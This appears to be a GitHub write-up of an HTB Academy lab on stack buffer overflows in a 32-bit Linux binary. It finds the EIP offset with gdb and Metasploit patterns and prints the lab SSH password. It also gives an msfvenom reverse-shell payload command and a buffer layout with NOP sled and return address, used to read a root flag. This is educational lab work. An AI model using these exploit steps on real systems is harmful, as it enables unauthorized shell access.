 # skills-assesment---STACK-BASED-BUFFER-OVERFLOWS-ON-LINUX-X86

![Screenshot 2022-06-10 at 23 19 07](https://user-images.githubusercontent.com/86610861/173449233-bd3ae29c-2786-412f-b4f7-6c2e847b76f2.png)

## Questions:

![6f6dbd3e-83f8-455e-84c3-1eadb281d27c](https://user-images.githubusercontent.com/86610861/173449318-93658307-b08d-4bc1-83cb-b54cc211b3a7.png)


## This writeup contains following chapters:
setup

file type of "leave_msg"

reach EIP

overwrite EIP and determine stack space size

read file "/root/flag.txt"


Setup

![Screenshot 2022-06-11 at 16 27 40](https://user-images.githubusercontent.com/86610861/173449468-f0b82bce-dcea-43f2-a021-29cb99b6e2fb.png)

Spawn the target system and get vpn key. after vpn is downloaded open it with
sudo openvpn academy.ovpn
Note: you must have vpn opened and running, otherwise you won't be able to ssh to with user "htb-student".
Open new terminal window and ssh to user "htb-student" type the following
ssh htb-student@{your target ip}
Then it will ask you for your password in which you should type 
HTB_@cademy_stdnt!
Now you are all set to start answering questions.
File type of "leave_msg"
Find out file type of leave_msg binary with file command.

![Screenshot 2022-06-11 at 16 13 05](https://user-images.githubusercontent.com/86610861/173453157-4961e549-3950-4d84-9313-f0fe35992ad1.png)

file command is linux command which determines file's type depending on what the file contains
Here we have the answer: ELF 32-bit file type

![Screenshot 2022-06-11 at 16 23 15](https://user-images.githubusercontent.com/86610861/173453098-03243645-4a43-43f9-bcce-a0f01420d978.png)


Reach EIP
Now we have to reach EIP.
open new terminal window and that is not connected to ssh server.
we have to create a unique pattern using Metasploit.
i wanted to create pattern that is long so that it would most likely cause segmentation fault.
![Screenshot 2022-06-11 at 17 00 24](https://user-images.githubusercontent.com/86610861/173449944-55355432-4f6d-4a32-999e-6a5cf7d09325.png)

pattern is created and now we have to open "leave_msg" with gdb with a terminal in which we are connected to ssh. type following:
gdb leave_msg
then we have to run the pattern to cause segmentation fault and check registers for eip address.
Run pattern:
run $(python -c 'print "{your unique pattern}"')
Check info registers:

![Screenshot 2022-06-11 at 17 14 48](https://user-images.githubusercontent.com/86610861/173449904-7d10ed5d-e36d-4625-b87e-672170773ad6.png)

notice the address next to eip register. copy that and then we find exact offset depending on EIP value. open the terminal in which we are NOT connected to ssh and type following.

![Screenshot 2022-06-11 at 17 11 07](https://user-images.githubusercontent.com/86610861/173451722-50c7d4aa-45fd-43f1-b535-a1759884624d.png)

Here it returns exact offset.

![Screenshot 2022-06-11 at 16 24 22](https://user-images.githubusercontent.com/86610861/173455512-ea791b23-4862-49ee-a24f-641cb5112ea5.png)

but if we want to overwrite EIP then we have to send 2064 bytes.
Overwrite EIP and determine stack space size
In ssh terminal type info proc all

![Screenshot 2022-06-11 at 17 19 52](https://user-images.githubusercontent.com/86610861/173452066-6593098c-57ec-4ae1-bc09-d17ff7d9186c.png)

info proc command shows the file descriptors opened by the processbefore [stack] in size field you can see 0x22000.



that's the answer we are looking for.

![Screenshot 2022-06-11 at 16 24 45](https://user-images.githubusercontent.com/86610861/173452720-507f9c93-3b72-4458-b4f4-1a3f82b6639c.png)


Read file "/root/flag.txt"
chapters :

generate shellcode

setup netcat listener

run exploit


Generate shellcode
MSFvenom - standalone payload generator

![Screenshot 2022-06-13 at 17 28 48](https://user-images.githubusercontent.com/86610861/173449802-e82c9ea8-9571-4f12-92bd-c85b5379adb8.png)

syntax - msfvenom -p linux/x86/shell_reverse_tcp lhost=<LHOST> lport=<LPORT> --format c --arch x86 --platform linux --bad-chars "<chars>" --out <filename>
  
  ![Screenshot 2022-06-13 at 17 29 07](https://user-images.githubusercontent.com/86610861/173455702-1b5335a9-a686-4253-95bf-e17f9efc8ec4.png)
  
  Setup netcat listener
note: setup netcat listener in ssh.
  
  ![Screenshot 2022-06-13 at 18 42 18](https://user-images.githubusercontent.com/86610861/173458599-dc05ae8c-48bf-4293-a7b7-acf6eeaeb8b6.png)
  
run exploit
note: run exploit IN SSH,  OUTSIDE GDB
Buffer = "\x55" * (2064 - 124 - 95 - 4) - 1841 bytes
     NOPs = "\x90" * 124 - 124bytes
Shellcode = "{your shellcode}" - 95bytes
      EIP = "\x2c\xd7\xff\xff" - 4bytes
  
  ![Screenshot 2022-06-13 at 17 19 11](https://user-images.githubusercontent.com/86610861/173458718-f6024397-c983-4a24-9345-74753afe122d.png)

  
  
after running our exploit we get a message connection received.type id to make sure you have a shell.
if we have shell we will get information about user. after that type in command to get a flag:
cat /root/flag.txt
  
![Screenshot 2022-06-13 at 17 18 48](https://user-images.githubusercontent.com/86610861/173449651-cf32e153-677e-4720-babb-d8f446944d6c.png)
  
  ![Screenshot 2022-06-13 at 16 28 01](https://user-images.githubusercontent.com/86610861/173458749-ed2ac1fb-e1f1-46bf-afee-a12ba6bb1cf1.png)

  
